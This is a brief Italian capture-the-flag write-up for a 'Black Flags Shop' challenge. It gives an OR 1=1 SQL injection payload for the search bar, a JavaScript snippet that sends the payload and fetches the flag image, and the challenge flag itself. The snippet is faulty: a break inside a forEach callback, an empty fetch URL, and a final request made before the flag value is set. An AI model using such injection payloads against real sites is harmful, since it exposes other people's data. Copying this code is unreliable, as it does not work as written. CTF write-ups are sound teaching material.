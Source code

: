 # Black Flags Shop

## Descrizione

Una semplice sql injection, nella barra di ricerca basta scrivere `f' OR 1 = 1 -- -` per ricevere tutti i nomi delle immagini a questo punto bastare fare una richiesta al server per ricevere quell' immagine e il gioco è fatto

```javascript

let flag = "";

fetch( '', {
    method: "POST",
    body: "f' OR 1 = 1 -- -"
})
.then( (response) => {
    return response.json();
})
.then( (data) =>  {
    data.forEach( (element) => {
        if ( element.nome === "Flag" ) {
            flag = element.immagine;
            break;
        }
    });
});

fetch( '/static_source' + flag );


```

## Flag

`CodeVinciCTF{S3c0nd0_m3_QQu4__ce_qu41c0s4_d1_57r4n0}`

## Autore
`sDibuon`
